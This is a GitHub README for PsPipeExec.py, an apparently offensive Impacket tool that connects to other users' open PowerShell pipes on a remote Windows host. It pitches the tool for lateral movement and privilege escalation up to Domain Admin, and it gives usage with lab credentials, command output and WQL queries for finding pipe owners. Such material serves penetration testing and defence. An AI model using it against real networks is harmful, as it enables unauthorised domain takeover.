

# PsPipeExec.py

This tool is the continuation of my other tool, PsPipeExec.exe. This one is python based and works on Linux largely using Impacket.

In summary, if you have local admin on a remote host, you can connect to remote PowerShell sessions on that host and execute commands within those PowerShell sessions. Not only does this provide lateral movement opportunities, but also privilege escalation opportunities. For example, if you get local admin access through something like RBCD, Shadow Credentials, etc and their is a Domain Admin on the remote host with a PowerShell session open, you can run commands as the domain admin and add a user you control to the Domain Admins group.

## Installation
```
git clone https://github.com/e-fin/PsPipeExec.py.git
cd PsPipeExec.py
python3 -m venv .
source bin/activate
python3 -m pip install -r requirements
```

## Usage

```
usage: PsPipeExec.py [-h] [-debug] [-hashes LMHASH:NTHASH] [-no-pass] [-k] [-aesKey hex key] [-dc-ip ip address] [-target-ip ip address] [-port [destination port]] [--list] [--pipe PIPE] [--command COMMAND] [--script SCRIPT] target

PowerShell Pipe Jacker

positional arguments:
  target                [[domain/]username[:password]@]<targetName or address>

options:
  -h, --help            show this help message and exit
  -debug                Turn DEBUG output ON

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -no-pass              don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target parameters. If valid credentials cannot be found, it will use the ones specified in the command line
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256 bits)

connection:
  -dc-ip ip address     IP Address of the domain controller. If omitted it will use the domain part (FQDN) specified in the target parameter
  -target-ip ip address
                        IP Address of the target machine. If omitted it will use whatever was specified as target. This is useful when target is the NetBIOS name and you cannot resolve it
  -port [destination port]
                        Destination port to connect to SMB Server

PowerShell Pipes:
  --list                list PSHost pipes and exit
  --pipe PIPE           full pipe name under IPC$ to connect to
  --command COMMAND     run one command and exit (non-interactive)
  --script SCRIPT       run entire PS1 file

```

## Examples

### List Remote PSHost Pipes (Credentials)
```
$ python3 PsPipeExec.py 'localhost/administrator:P@ssw0rd'@192.168.1.101 --list

PSHost pipes on target:
   PSHost.134296493751823186.13108.DefaultAppDomain.powershell
```

### List Remote PSHost Pipes (Kerberos)
```
$ python3 PsPipeExec.py -k -no-pass ws01.lab.local --list      
  
PSHost pipes on target:
   PSHost.134296493751823186.13108.DefaultAppDomain.powershell
```

### Connect to Remote PSHost Pipe (Credentials)
```
$ python3 PsPipeExec.py 'localhost/administrator:P@ssw0rd'@192.168.1.101 --pipe PSHost.134296493751823186.13108.DefaultAppDomain.powershell --command '[System.Security.Principal.WindowsIdentity]::GetCurrent().Name'

LAB\administrator

```

### Connect to Remote PSHost Pipe (Kerberos)
```
$ python3 PsPipeExec.py -k -no-pass ws01.lab.local --pipe PSHost.134296493751823186.13108.DefaultAppDomain.powershell --command '[System.Security.Principal.WindowsIdentity]::GetCurrent().Name'

LAB\administrator

```

### Connect to Remote PSHost Pipe INTERACTIVE
```
$ python3 PsPipeExec.py 'localhost/administrator:P@ssw0rd'@192.168.1.101 --pipe PSHost.134296493751823186.13108.DefaultAppDomain.powershell   

Connected. Enter PowerShell commands; 'exit' to quit.
PS> whoami
lab\administrator
PS> $i = "hello"
PS> echo $i
hello
PS> 
```

### Connect to Remote PSHost Pipe and Run PS1 Script
```
$ cat test.ps1                                
echo hello
echo hello2
whoami
ipconfig

$ python3 PsPipeExec.py 'localhost/administrator:P@ssw0rd'@192.168.1.101 --pipe PSHost.134296493751823186.13108.DefaultAppDomain.powershell --script test.ps1

hello
hello2
lab\administrator

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : lab.local
   Link-local IPv6 Address . . . . . : fe80::f0d3:c6c2:48ad:94f5%13
   IPv4 Address. . . . . . . . . . . : 192.168.1.101
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : fe80::20c:29ff:fe9d:a180%13
                                       192.168.1.1


```
### Find Which User Owns the PowerShell Pipe Without Command Execution (WMIQUERY)

No need to run whoami, or whatever PowerShell command to see who the PowerShell pipe belongs to. We can check with wmiquery.py form impacket. Wmi Query Language is massivly unerappreciated.

Here are the commands you need to run a with a screenshot example:
```
## Replace 13108 with PID from PSHost Pipe
# Example: PSHost.134296493751823186.13108.DefaultAppDomain.powershell

WQL> ASSOCIATORS OF {Win32_Process.Handle="13108"} WHERE AssocClass=Win32_SessionProcess

WQL> SELECT * FROM Win32_LoggedOnUser

```



## ToDo

- [ ] Allow execution of whole PowerShell file
- [ ] Interactive PowerShell console
- [ ] Find better way to determine who the PSHost pipe belongs to
